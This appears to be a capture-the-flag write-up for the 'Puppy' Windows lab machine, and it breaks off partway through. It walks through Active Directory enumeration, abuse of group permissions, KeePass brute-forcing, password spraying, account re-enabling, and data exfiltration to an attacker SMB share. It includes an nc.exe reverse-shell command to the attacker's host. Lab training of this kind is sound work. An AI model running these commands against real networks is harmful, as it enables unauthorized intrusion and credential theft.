- Machine Name: Puppy
- OS Type: Windows
- Difficulty: Intermediate

> ***As is common in real life pentests, you will start the Puppy box with credentials for the following account: levi.james / KingofAkron2025!***
> 

### Port Scanning  - Service & Version Enumeration

```php
# Nmap 7.95 scan initiated Sun May 18 12:33:41 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.70
Nmap scan report for 10.10.11.70
Host is up, received echo-reply ttl 127 (0.28s latency).
Scanned at 2025-05-18 12:33:41 IST for 1449s
Not shown: 65512 filtered tcp ports (no-response)
Bug in iscsi-info: no string output.
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-18 14:24:32Z)
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
3260/tcp  open  iscsi?        syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49685/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52543/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52572/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m33s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 62785/tcp): CLEAN (Timeout)
|   Check 2 (port 58506/tcp): CLEAN (Timeout)
|   Check 3 (port 26380/udp): CLEAN (Timeout)
|   Check 4 (port 57090/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-05-18T14:26:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 18 12:57:50 2025 -- 1 IP address (1 host up) scanned in 1449.34 seconds

```

## Enumeration

### Port 139,445/SMB

let’s start our enumeration by smb service

as we have the credentials let’s enumerate shares and check if we have any share access

```php
netexec smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --shares
```



we have interesting DEV share but we don’t have a READ permissions to it let’s enumerate the users using netexec 

```php
netexec smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --users
```



for get a proper Picture of Domain 

```php
bloodhound-python -c all -d puppy.htb -ns 10.10.11.70 -u levi.james -p 'KingofAkron2025!'
```



let’s start the bloodhound, first start the neo4j database using `sudo neo4j console` 

and then start bloodhound by `bloodhound` upload all json files to bloodhound 

search for the levi.james user and mark user as owned





we can see that user levi.james is member of HR group who has GenericWrite Permissions on the Developers group

there are 3 members of developers group



we found that user ANT.EDWARDS is the member of senior developers group



who has GenericAll permissions over the ADAM.SILVER user

and the ADAM.SILVER user is member of Remote Management Users



let’s first add our user in developers group

```php
net rpc group addmem "developers" "levi.james" -U puppy.htb/'levi.james'%'KingofAkron2025!' -S 10.10.11.70
```

now let’s check if we are added to group successfully or not

```php
net rpc group members "developers" -U puppy.htb/'levi.james'%'KingofAkron2025!' -S 10.10.11.70
```



nice we are now member of developers group let’s check if we have access to DEV share now

```php
netexec smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --shares
```



let’s connect to smb share - DEV using smbclinet

```php
smbclient //10.10.11.70/DEV -U puppy.htb/levi.james%'KingofAkron2025!'
```



download all the files and folders

```php
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```

we found the recover.kdbx file let’s try to crack it using `keepass2john` 



ohh! so we got error, after some research i found that KDBX 4.X version currently not supported by keepass2john so we need to manually bruteforce the password

[https://github.com/r3nt0n/keepass4brute](https://github.com/r3nt0n/keepass4brute)

this script can help us to bruteforce the password

run the script

```php
./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
```



let’s open the keepass database file 

```php
keepassxc recovery.kdbx
```



we found password of 5 users

```php
ADAM SILVER: HJKL2025!
ANTONY C. EDWARDS: Antman2025!
JAMIE WILLIAMSON: JamieLove2025!
SAMUEL BLAKE: ILY2025!
STEVE TUCKER: Steve2025!
```

we already have the user’s list let’s create another password list and spray all passwords for all users

```php
netexec smb 10.10.11.70 -u users.txt -p password.txt --continue-on-success
```



we found valid credentials for the ant.edwards user

now as per our enumeration we know that the ant.edwards user is member of Senior devs group and this group have the GenericAll Permissions over the Adam.silver user

so let’s change the adam user’s password

```php
net rpc password "adam.silver" '0xh3x!!' -U puppy.htb/ant.edwards%'Antman2025!' -S 10.10.11.70
```

now let’s see if the password is set to the user or not

```php
netexec smb 10.10.11.70 -u adam.silver -p '0xh3x!!'
```



LoL! it shows the `STATUS_ACCOUNT_DISABLED` 

so it means the account is not enabled but however we have a genericall permissions on the object can’t we enable this user account

after some research i found

- `512` – Normal account
- `514` – Disabled account
- `544` – Enabled + password not required

after some research i found that we can modify the `userAccountControl` attribute of the user and set it to 512 to enable the user

first we’ll check the **`userAccountControl`** attribute of the user

```php
bloodyAD --host 10.10.11.70 -d 'puppy.htb' -u 'ant.edwards' -p 'Antman2025!' get object 'adam.silver'
```



update the userAccountControl attribute

```php
bloodyAD --host 10.10.11.70 -d 'puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set object -v 512 'adam.silver' userAccountControl
```

again checking the `userAccountControl` 



### If you get Error while updating:

```php
ldapsearch -x -H ldap://10.10.11.70 -D 'ant.edwards@puppy.htb' -w 'Antman2025!' -b 'DC=puppy,DC=htb' '(sAMAccountName=adam.silver)' distinguishedName userAccountControl
```


here `514` means user account is disabled

create a enable.ldif file with following contents

```php
dn: CN=Adam D. Silver,CN=Users,DC=puppy,DC=htb
changetype: modify
replace: userAccountControl
userAccountControl: 512
```

```php
ldapmodify -x -H ldap://10.10.11.70 -D 'ant.edwards@puppy.htb' -w 'Antman2025!' -f enable.ldif
```

run ldapmodify command to modify the value of userAccountControl

verify if user account attribute has been changed or not



nice let’s try to login now



Lol!! No success, we need to reset password again, looks like after few minutes it automatically resets the password

checking the winrm access after resetting password

```php
netexec winrm 10.10.11.70 -u adam.silver -p '0xh3x!!'
```



let’s connect to machine using evil-winrm

```php
evil-winrm -i 10.10.11.70 -u adam.silver -p '0xh3x!!'
```



i don’t like evil-winrm when it comes to performance let’s upload nc.exe and get fast and proper shell

```php
Start-Process -FilePath "C:\Users\adam.silver\Documents\nc.exe" -ArgumentList "10.10.14.64 445 -e cmd" -WindowStyle Hidden
```



Checking the C drive directory we found the interesting **`Backups`** 



let’s check what the folder is contains



we found the interesting site-backup zip file let’s transfer it to our kali machine for further enumeration

start smb server on kali machine using `impacket-smbserver` 

```php
impacket-smbserver test . -user admin -password admin -smb2support
```

on windows machine:

to connect the smb server 

```php
net use \\10.10.14.64 admin /user:admin
```

and then copy the zip file to smb share

```php
copy site-backup-2024-12-30.zip \\10.10.14.64\test
```



from kali machine, unzip the file

```php
unzip site-backup-2024-12-30.zip
```

i found `nms-auth-config.xml.bak` file inside the web directory `puppy` 



let’s check the group membership  of the steph.cooper user



let’s login as steph.cooper, but the user itself doesn’t have any special permissions or the group membership 

but another user `steph.cooper_adm` has some interesting group membership

